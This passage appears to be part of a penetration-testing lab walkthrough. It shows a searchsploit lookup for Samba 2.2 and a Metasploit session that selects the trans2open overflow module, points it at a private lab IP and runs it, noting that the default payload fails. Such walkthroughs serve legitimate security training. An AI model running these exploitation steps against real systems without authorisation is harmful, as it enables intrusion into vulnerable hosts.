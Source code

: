    
### Exploit Verification with Searchsploit

```bash
searchsploit samba 2.2
```

![456851002ee828d5ff48f7b0cb9943f4.png](../_resources/456851002ee828d5ff48f7b0cb9943f4.png)

Metasploit Exploitation Workflow
```
msf6 > search trans2open

Matching Modules
================
#  Name                                  Disclosure Date  Rank       Check  Description
-  ----                                  ---------------  ----       -----  -----------
0  exploit/freebsd/samba/trans2open      2003-04-07       great      No     Samba trans2open Overflow (FreeBSD x86)
1  exploit/linux/samba/trans2open        2003-04-07       great      No     Samba trans2open Overflow (Linux x86)
2  exploit/osx/samba/trans2open          2003-04-07       great      No     Samba trans2open Overflow (Mac OS X PPC)
3  exploit/solaris/samba/trans2open      2003-04-07       great      No     Samba trans2open Overflow (Solaris SPARC)

msf6 > use 1  # exploit/linux/samba/trans2open
msf6 exploit(trans2open) > set RHOSTS 192.168.29.175
msf6 exploit(trans2open) > exploit  # Default payload fails
```

![9978363d7e83f1bd7e9d17b8340a404d.png](../_resources/9978363d7e83f1bd7e9d17b8340a404d.png)
